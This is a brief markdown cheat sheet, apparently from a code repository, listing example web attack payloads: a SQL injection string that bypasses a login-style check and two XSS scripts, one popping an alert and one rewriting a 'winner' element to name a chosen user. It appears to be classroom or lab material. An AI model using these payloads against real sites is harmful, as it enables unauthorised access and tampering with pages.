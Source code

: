 # Cheat

## Exemple Injection SQL

``` SQL
" OR 1 LIMIT 1; -- 
```

## Exemple XSS

``` javascript
<script>alert('Hello XSS')</script>
```

``` javascript
<script>
    var e = document.getElementById('winner');
    e.innerHTML='Winner: fabrice1618';
</script>
```
